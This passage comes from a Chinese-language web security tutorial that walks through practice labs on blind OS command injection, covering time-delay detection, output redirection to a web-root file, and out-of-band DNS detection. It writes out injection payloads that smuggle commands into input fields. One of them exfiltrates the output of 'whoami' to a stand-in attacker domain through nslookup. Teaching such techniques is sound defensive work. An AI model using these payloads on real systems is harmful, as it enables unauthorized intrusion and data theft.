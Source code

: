 ### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8%E5%BB%B6%E6%97%B6%E6%A3%80%E6%B5%8BOS%E5%91%BD%E4%BB%A4%E7%9B%B2%E6%B3%A8%E6%BC%8F%E6%B4%9E"></a>配套靶场：利用延时检测OS命令盲注漏洞

就像我们刚才讲的，然后上手操作一下，基本没什么难度的

[![](https://p2.ssl.qhimg.com/t01a6dd38fab12676fa.png)](https://p2.ssl.qhimg.com/t01a6dd38fab12676fa.png)

我们看到我们的响应时间延后了10秒左右的样子，说明后端执行了我们注入的OS命令

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E9%87%8D%E5%AE%9A%E5%90%91%E8%BE%93%E5%87%BA%E8%A7%A6%E5%8F%91OS%E5%91%BD%E4%BB%A4%E7%9B%B2%E6%B3%A8"></a>利用重定向输出触发OS命令盲注

在了解到如何检测OS命令盲注漏洞以后，我们就要学习如何触发这个漏洞，这里介绍的方法是重定向输出，什么是重定向输出呢？就是将输出从其他的通道发出来，我们可以将OS命令盲注的结果写入到某个文件下，比如根目录的某个文件，然后我们就可以直接访问那个文件获取到结果了，比如我们注入这样的OS命令<br>`&amp; whoami &gt; /var/www/static/whoami.txt &amp;`<br>
如果应用程序存在OS命令盲注漏洞的话，则会在Web根目录下生成这样一个文件，里面保存着OS命令盲注的结果，这里有一个小知识给初学者讲一下哦，就是重定向输出符(&gt;)，正常情况会输出到命令行的嘛，但是利用这个操作符以后就可以将输出重定向到我们指定的地方，比如txt文件

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8%E9%87%8D%E5%AE%9A%E5%90%91%E8%BE%93%E5%87%BA%E8%A7%A6%E5%8F%91OS%E5%91%BD%E4%BB%A4%E7%9B%B2%E6%B3%A8"></a>配套靶场：利用重定向输出触发OS命令盲注

我们刚才已经讲的很详细了，大家手肯定痒痒了，那就稍微动动手玩玩

[![](https://p3.ssl.qhimg.com/t01830023e553e1703a.png)](https://p3.ssl.qhimg.com/t01830023e553e1703a.png)

然后我们访问一下对应的文件看一下有没有我们想要的东西

[![](https://p0.ssl.qhimg.com/t010f6b3c1e09089511.png)](https://p0.ssl.qhimg.com/t010f6b3c1e09089511.png)

好的，我们看到不仅能访问到那个文件，并且还能看到里面的内容，说明我们成功触发OS命令盲注

### <a class="reference-link" name="%E5%88%A9%E7%94%A8%E5%B8%A6%E5%A4%96%E6%8A%80%E6%9C%AF(OAST)%E6%A3%80%E6%B5%8B%E4%B8%8E%E8%A7%A6%E5%8F%91OS%E5%91%BD%E4%BB%A4%E7%9B%B2%E6%B3%A8"></a>利用带外技术(OAST)检测与触发OS命令盲注

之前我们在介绍Sql盲注的时候也介绍过带外技术，在OS命令盲注中同理，只不过是执行的位置不同罢了，比如我们注入这样OS命令<br>`&amp; nslookup kgji2ohoyw.web-attacker.com &amp;`<br>
上面这条命令只是利用带外技术检测OS命令盲注，当攻击者的服务器检测到有DNS流量即表示存在OS命令盲注漏洞

那么我们如何触发OS命令盲注呢？我们可以将OS命令盲注的结果拼接到所请求的域中，像这样的<br>`&amp; nslookup`whoami`.kgji2ohoyw.web-attacker.com &amp;`<br>
如果应用程序存在OS命令盲注的话，则我们可以在攻击者服务器接收到这样的DNS流量<br>`wwwuser.kgji2ohoyw.web-attacker.com`

### <a class="reference-link" name="%E9%85%8D%E5%A5%97%E9%9D%B6%E5%9C%BA%EF%BC%9A%E5%88%A9%E7%94%A8%E5%B8%A6%E5%A4%96%E6%8A%80%E6%9C%AF%E6%A3%80%E6%B5%8BOS%E5%91%BD%E4%BB%A4%E7%9B%B2%E6%B3%A8"></a>配套靶场：利用带外技术检测OS命令盲注
